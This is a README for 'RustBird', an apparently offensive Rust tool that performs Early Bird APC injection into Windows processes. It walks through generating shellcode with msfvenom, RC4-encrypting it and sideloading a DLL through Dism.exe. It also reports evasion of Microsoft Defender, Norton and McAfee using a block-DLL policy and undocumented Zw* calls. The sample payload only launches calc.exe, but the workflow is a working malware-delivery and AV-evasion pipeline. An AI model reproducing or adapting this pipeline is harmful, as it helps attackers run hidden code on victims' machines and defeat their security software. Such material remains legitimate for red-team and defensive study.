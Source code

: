 # RustBird (Early Bird APC Injection in Rust)

<p align="left">
	<a href="https://www.rust-lang.org/"><img src="https://img.shields.io/badge/made%20with-Rust-red"></a>
	<a href="#"><img src="https://img.shields.io/badge/platform-windows-blueviolet"></a>
</p>

![rustbird](https://static.wikia.nocookie.net/finalfantasy/images/9/90/Rust_Bird_from_FFIII_Pixel_Remaster_sprite.png)

## Overview
The technique known as "Early Bird APC Injection" is used to inject malicious code into the legitimate processes of a Windows operating system. This method inserts malicious code into a process during its early stages, often before the main routines of the process are activated. It also features enhanced antivirus evasion capabilities through the implementation of a Block DLL Policy, which prevents the loading of DLLs not signed by Microsoft, the use of Zw* functions from undocumented APIs in the Windows Kernel, and the utilization of DLL sideloading.

## Generate Payload using MSFvenom
```
msfvenom -p windows/x64/exec cmd="calc.exe" -f raw -o raw.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 276 bytes
Saved as: raw.bin
```

## Payload Encryption
RC4 Encrypt Payload: https://github.com/c2pain/RC4_Encryptor

Example:
```
C:\Users\C2Pain\Desktop> rc4_encryptor.exe raw.bin
[+] Encrypted shellcode saved to: r-a-w-4.enc
```

## DLL Sideloading
Using Dism.exe as an example, it has been noted that it loads DismCore.dll.

To locate the exported functions, you can use: https://github.com/c2pain/RustGetExports

You can then include the exported functions to the lib.rs.
```
RustGetExports.exe C:\Windows\System32\Dism\DismCore.dll
DismCore.dll
DllCanUnloadNow
DllGetClassObject
DllRegisterServer
```

## Usage 
You need to compiled the binary and copy C:\Windows\System32\Dism.exe to the same directory to run:
```
cargo build --release
```

## AV/EDR Testing Result on x64 Windows 10/11
Test Date: 5 Oct 2024
| AV/EDR Product | Execute |
| ------ | ------ |
| Microsoft Defender | :white_check_mark: |
| Norton 360 Deluxe | :white_check_mark: |
| McAfee | :white_check_mark: |

## Screenshots
![spawn-calc](/screenshots/spawn-calc.png)

## Reference and Credits
[RustRedOps](https://github.com/joaoviictorti/RustRedOps) by @joaoviictorti

[Hijack Execution Flow: DLL Side-Loading](https://attack.mitre.org/techniques/T1574/002/)

[Final Fantasy Wiki - Enemies in Final Fantasy III](https://finalfantasy.fandom.com/wiki/Rust_Bird)

## Full Disclaimer
For educational purposes only. Any actions and or activities related to the material contained within this repository is solely your responsibility. The misuse of the tools in this repo could result in criminal charges being brought against the persons in question. The author will not be held responsible in the event any criminal charges are brought against any individuals misusing the tools in this repository for mailicious ourposes or to break the law.

## Support
BTC: bc1q6segt3zsy0q7656ktcf8kgulday0as27xtpffx

[!["Buy Me A Coffee"](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://www.buymeacoffee.com/c2pain)
